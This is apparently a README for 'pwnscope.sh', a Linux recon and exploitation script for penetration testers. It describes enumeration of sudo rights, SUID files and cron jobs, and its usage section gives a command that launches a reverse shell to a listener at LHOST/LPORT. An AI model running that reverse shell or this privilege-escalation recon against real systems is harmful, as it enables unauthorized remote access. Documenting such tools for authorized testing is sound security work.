 # pwnscope.sh

**pwnscope.sh** is a lightweight Linux reconnaissance and minimal exploit toolkit script designed to help security professionals quickly gather system information and perform basic exploitation.
It's designed to run smarter and faster than other recon scripts yet. So just give it a try!

---

## Features

* Quick system overview (`--short`)
* Full enumeration including sudo privileges, SUID files, capabilities, cron jobs, network info, and Docker check (`--full`)
* Minimal reverse shell exploit via bash/sh (`--exploit`) requiring `LHOST` and `LPORT` environment variables

---

## Requirements

* Bash or compatible shell (works with `/bin/bash`, `/bin/sh`, `ash`, etc.)
* Linux environment
* `sudo` privileges for some extended checks (optional)
* Basic utilities like `find`, `ps`, `ss`, `ip`, `free`, `df`, `getcap`

---

## Usage

```bash
# Display help and usage
./pwnscope.sh

# Quick system info
./pwnscope.sh --short

# Full system enumeration
./pwnscope.sh --full

# Minimal reverse shell exploit
LHOST=10.10.10.4 LPORT=4444 ./pwnscope.sh --exploit
```

---

## Example Output

### Quick overview:

```
[*] Quick System Overview
Hostname: vulnserver
User: root
Kernel: 5.15.0-73-generic
Uptime: up 3 hours, 25 minutes
CPU Info: Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz
Memory Usage:
              total        used        free      shared  buff/cache   available
Mem:           3.7G        1.1G        1.5G         54M        1.1G        2.3G
Swap:          0B          0B          0B
Disk Usage (root):
/dev/sda1        50G        15G        33G   31% /
Top 5 processes by memory:
root       1234  4.2  3.1  987654 123456 ?    Sl   10:00   0:05 java
...
Open ports:
LISTEN   0      128         0.0.0.0:22          0.0.0.0:*  
LISTEN   0      128         127.0.0.1:5432      0.0.0.0:*  
...
```

---

## License

MIT License — see the [LICENSE](LICENSE) file for details.

---

## Disclaimer

This tool is intended for authorized penetration testing and security assessments only. Use responsibly and legally.
